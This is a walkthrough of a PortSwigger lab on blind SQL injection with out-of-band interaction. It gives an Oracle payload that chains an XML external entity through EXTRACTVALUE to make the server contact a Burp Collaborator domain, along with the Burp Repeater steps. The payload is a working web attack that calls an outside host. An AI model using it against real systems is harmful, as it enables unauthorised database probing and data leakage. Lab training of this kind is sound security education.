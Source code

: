 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0c8f9c66-4a4e-4986-809c-7f98925ddf02)

## Solution :

The payloads for each domain to perform a DNS lookup to an external domain.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/568c42f2-93d8-4a55-8fa9-ad774eeef678)

Query made - 

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'
```

Request captured -

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d9470386-e993-4095-9db8-67786c0f9813)


`Send this to Repeater`

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/ca5c93bf-8835-4671-8739-0371b4d10b02)


`Then Open the burp collaborator client, copy one of the domain provided` 

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/50679058-e287-42be-ae95-afafa4239c9f)

Then click on copy to clipbord option = `hsdsl3chnluavy0asy6vodz1ys4js9gy.oastify.com` we need paste it in the payload which we are going to do.

Since we are unsure of the database we are working with, we attempt every payload listed on DNS lookup for every database.

So the first one will be  `Oracle`

For that the payload is 

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)--
```

Then query will be changed by pasting the external  domain provided by collaborator would look like this

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' ' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "hsdsl3chnluavy0asy6vodz1ys4js9gy.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c71e3347-c20a-4269-8930-999d6ca7b6d9)

Then ctrl+u to encode the payload.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/395341c4-9d93-4f1f-8cba-c682b68f4261)

Then go to  collaborator and press poll button.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/92cf7b00-44c5-40bb-b04b-71145a972b86)

Lab solved

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/f0f94479-d1d3-4a46-8feb-9d7fec62c9ce)










